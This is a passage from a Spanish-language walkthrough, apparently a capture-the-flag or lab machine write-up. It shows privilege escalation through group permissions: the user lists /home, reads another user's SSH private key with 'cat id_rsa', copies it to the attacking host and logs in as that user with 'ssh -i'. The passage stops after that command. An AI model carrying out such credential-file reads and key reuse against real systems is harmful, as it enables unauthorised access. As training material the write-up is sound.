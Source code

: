 Info:

```
total 24
drwxr-xr-x  6 root  root     4096 Aug 16  2023 .
drwxr-xr-x 18 root  root     4096 Mar 29  2024 ..
drwxr-x---  3 diego internal 4096 Apr  8 06:39 diego
drwxr-x---  2 gege  internal 4096 Aug 18  2023 gege
drwxr-x---  5 think internal 4096 Jan 12  2024 think
drwxr-x---  2 xavi  internal 4096 Aug 18  2023 xavi
```

Vemos que esta dentro del grupo `internal` y si vemos a que grupo pertenecemos, veremos lo siguiente:

```shell
id
```

Info:

```
uid=1002(diego) gid=1002(diego) groups=1002(diego),1005(internal)
```

Vemos que pertenecemos, por lo que podremos entrar dentro de las carpetas de la `home`, si investigamos veremos una en concreto bastante interesante, que seria la del usuario `think`, vemos que tiene una clave `PEM` en la que podremos meternos y leerla.

```shell
cd /home/think/.ssh/
cat id_rsa
```

Veremos que nos deja, por lo que nos copiaremos el `id_rsa` pasandolo a nuestro `host`.

> Maquina HOST

```shell
nano id_rsa

#Dentro del nano
<ID_RSA_THINK>
```

Lo guardamos y establecemos los permisos necesarios.

```shell
chmod 600 id_rsa
```

Ahora nos vamos a conectar por `SSH` mediante la clave `PEM`.

### SSH

```shell
ssh -i id_rsa think@<IP>
```

Info:
